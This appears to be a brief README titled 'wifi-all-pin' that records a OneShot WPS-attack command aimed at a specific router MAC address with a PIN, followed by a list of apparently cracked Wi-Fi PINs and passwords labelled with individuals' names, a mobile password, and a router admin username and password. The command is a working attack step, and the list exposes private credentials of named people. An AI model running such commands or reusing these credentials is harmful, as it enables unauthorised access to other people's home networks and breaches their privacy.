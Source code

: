 # wifi-all-pin

 sudo python OneShot/oneshot.py -i wlan0 -b 48:22:54:14:A0:C9 -p 49937305

jakir wifi:- 85239999

jamal wifi= 91978035

Rubrl wifi:- 21595684

jiban:- 68642419

sumaiya Home:- 21660436

sadik wifi= 70367157

SK arman bazar wifi:- 17985123

Renu kaka:- 30712881

sumaiya মোবাইল পাসওয়ার্ট:- 637267

Ranu wifi admin penel:- 76449163
## Renu wifi 
user:- ts-net1026
password:- 12345

